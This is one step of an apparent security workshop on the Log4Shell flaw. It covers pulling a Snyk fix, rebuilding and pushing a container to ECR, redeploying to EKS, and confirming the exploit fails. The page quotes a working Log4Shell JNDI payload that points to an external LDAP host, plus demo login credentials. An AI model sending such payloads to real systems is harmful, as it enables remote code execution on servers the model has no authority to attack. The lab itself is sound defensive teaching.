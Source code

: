 +++
title = "Step 12: Verify the Vulnerability is no longer exploitable."
chapter = false
weight = 44
+++

## Update your Cloud9 working branch

Back in Cloud9, pull the latest changes, including the Snyk Fix, to the working environment.

```sh
git pull
```

## Re-build the Image
Now build and push the container to ECR (make sure you are cd'ed into the todolist directory).

```sh
docker build -t ${ECR_REPO}/todolist:latest .
docker push ${ECR_REPO}/todolist:latest
```

## Re-deploy the Application to EKS

After pushing the image to ECR, push it to EKS by scaling the goof deployment with kubectl. The deployment's ImagePullPolicy forces EKS to pull the latest image from ECR.

```sh
kubectl scale deployment todolist --replicas=0
kubectl scale deployment todolist --replicas=1
```

## Verify the Exploit no longer works

Refresh your broweser tab on the todolist app and log back in (user: foo@bar.org, password: foobar) and submit the same JDNI search string: `${jndi:ldap://ldap.darkweb:80/#Vandalize}`.
The page will not show the graphiti because the newer version on Log4J no longer is vulnerable!

![todolist-fixed](/images/todolist-fixed.png)